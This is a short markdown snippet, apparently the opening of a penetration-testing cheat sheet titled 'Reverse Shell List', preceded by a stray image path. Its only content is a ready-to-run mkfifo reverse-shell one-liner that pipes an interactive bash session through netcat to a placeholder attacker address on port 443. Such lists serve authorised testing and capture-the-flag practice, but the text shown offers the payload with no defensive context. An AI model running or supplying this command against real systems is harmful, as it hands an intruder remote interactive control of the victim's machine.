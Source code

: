# Reverse Shell List

## Mkfifo Reverse Shell
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc <ATTACKING_IP> 443 >/tmp/f`